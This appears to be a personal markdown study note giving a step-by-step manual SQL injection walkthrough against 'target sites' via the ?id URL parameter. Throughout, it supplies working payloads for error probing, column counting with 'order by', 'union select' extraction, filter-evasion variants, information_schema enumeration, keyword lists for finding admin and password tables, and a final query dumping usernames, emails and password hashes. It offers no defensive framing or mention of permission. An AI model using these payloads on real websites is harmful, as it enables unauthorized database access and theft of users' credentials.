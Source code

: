 # <mark style="background: #FFB86CA6;">Attention :</mark> 
## All The Command Code We Learn Below, Must Be Typed <mark style="background: #FF5582A6;">After ?Id Number,</mark> In The URL Of The Target Site.

# <mark style="background: #FFB86CA6;">Steps :</mark> 
## First Step :

- <mark style="background: #FFB86CA6;">Putting a single quote ( ' ) in the end of target site</mark> 
	if there is a change in the site or we encountered an error, There is probably a vulnerability in the site.

## Second Step :

- <mark style="background: #FFB86CA6;">order by 9999--</mark> 
	if with above command code, the site could not be loaded but with below command code :
- <mark style="background: #FFB86CA6;">order by 1--</mark> 
	the site has been loaded, we go to the third step

### An important <mark style="background: #FF5582A6;">point 1</mark> :

if with second step code the site has been loaded, so we do this :
- <mark style="background: #FFB86CA6;"><mark style="background: #FF5582A6;">'</mark> order by 9999--<mark style="background: #FF5582A6;">+</mark> </mark> 
	at this stage, with above code, the site should not be loaded or we encountered an error but with below code, the site should be loaded without any error :
- <mark style="background: #FFB86CA6;"><mark style="background: #FF5582A6;">'</mark> order by 1--<mark style="background: #FF5582A6;">+</mark> </mark>

### An important <mark style="background: #FF5582A6;">point 2</mark> :

if for the target we use <mark style="background: #FF5582A6;">' +</mark> at the beginning and end of site, so it's <mark style="background: #FF5582A6;">necessary</mark> to be untill the last step.
if with <mark style="background: #FF5582A6;">' +</mark> at the beginning and end of site, the site is loaded again :
<mark style="background: #FF5582A6;">the site hasn't any sql injection vulnerability</mark> 

### An important <mark style="background: #FF5582A6;">point 3</mark> :

before third step, we must know that how many columns does the target site have, for this we must subtract from number of (order by 9999-- or 'order by 9999--) to get the actual number of columns.
how do we know ?
when we reached the first number that the target site was loaded, and with the number
after that, we encountered an error or a change in the appearance of the site compared to (order by 1-- or 'order by 1--), <mark style="background: #FF5582A6;">we understand the number of columns.</mark> 

## Third Step :

- <mark style="background: #FFB86CA6;">union select the number of columns--</mark> 
	for example, in a site where we have 9 columns :
		union select 1,2,3,4,5,6,7,8,9-- 
with this code we should see the column numbers on the desired page.

### <mark style="background: #FF5582A6;">Point 1 :</mark> 

if we didn't see the column numbers (in page or source), we have to do this : 
1. (-) behind the ?id number
	for example : ?id=46 -------> ?id=-46
2. (and 0) after the ?id number
3. (dir 0) after the ?id number
4. (where 1 like 0) after the ?id number
5. (and 1 like 0) after the ?id number
6. 9999 instead of ?id number
7. null instead of ?id number
8. put the ?id number inside a parenthesis
	for example : ?id=46 -------> ?id=(46)

### <mark style="background: #FF5582A6;">Point 2 :</mark> 

if the number of columns was too large to write :
	HackBar Quantum ---> sql part ---> union select statement --->
	we write the number of columns we wants ---> and Quantum give us
	the desired code with union select.

## Fourth Step :

<mark style="background: #FF5582A6;">this step is optional</mark> 
for example, in a site where we have 9 columns :
- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,database(),7,8,9-- </mark> 
- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,version(),7,8,9--</mark> 
instead of (version()), we can use the following words :
1. @@version
2. @@global.version
3. @@innodb_version

## The Fifth :

- <mark style="background: #FFB86CA6;">group_concat(table_name) from information_schema.tables where table_schema=database()--</mark> 
	
	for example, in a site where we have 9 columns :
- union select 1,2,3,4,5,group_concat(table_name),7,8,9 from information_schema.tables where table_schema=database()--
### <mark style="background: #FF5582A6;">Point :</mark> 
(br in '<>') beside (table_name,) for vertical display of columns.
if a site with (br in '<>') give us an error, we use it's hex expression without quotation : <mark style="background: #FF5582A6;">0x3c62723e</mark> 

## The Sixth Step :

<mark style="background: #FF5582A6;">we are looking for important table with the sixth step code.</mark> 
table that contain the following words :
1. admin
2. user
3. login
4. member
5. account
6. setting
7. panel
8. crm
9. cms
10. db
11. server
12. host
13. columns_priv

### <mark style="background: #FF5582A6;">Point :</mark> 
if we didn't find the important table :
- <mark style="background: #FFB86CA6;">union select group_concat(schema_name) from information_schema.schemata--</mark> 
with above code we understand the name of all the site's databases.
if the target site had only one database and that database didn't have an important table then the target <mark style="background: #FF5582A6;">doesn't have an admin panel.</mark> 
in multi-database sites, we search each database to find the important tables.

## The Seventh Step :

after finding the important table, we find the content of columns of that table with following code :

- <mark style="background: #FFB86CA6;">group_concat(column_name) from information_schema.columns where table_name='important table'--</mark> 

	for example, in a site where we have 9 columns :
	
- union select 1,2,3,4,5,group_concat(<mark style="background: #FF5582A6;">column</mark> _name),7,8,9 from information_schema<mark style="background: #FF5582A6;">.columns</mark> where table<mark style="background: #FF5582A6;">_name</mark> =<mark style="background: #FF5582A6;">'important table'</mark> --

<mark style="background: #FF5582A6;">and we are looking for important columns.</mark> 
columns that contain the following words :
1. user
2. username
3. password
4. pass
5. usr
6. pwd
7. email

### <mark style="background: #FF5582A6;">Point :</mark> 
the target site maybe sensitive to quotation, in such cases we should to hex the important table with HackBar For Quantum and put the hex expression in our code without quotation.

## The Eighth Step :

- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,group_concat(username,email,password),7,8,9 from important table--</mark> 

### <mark style="background: #FF5582A6;">point 1:</mark> 
at this step, we type the important table without quotation and also we can't use the hex expression.

### <mark style="background: #FF5582A6;">Point 2 :</mark> 
to separate username, email and password from each other on the desired target page :
we use (<mark style="background: #FF5582A6;">0x3a3a</mark>) between username, email and password :
(username,0x3a3a,email,0x3a3a,password)

## Final Step :

we see the username, email and password on the desired page, of course, the password maybe hashed. ([[1-Intro]])










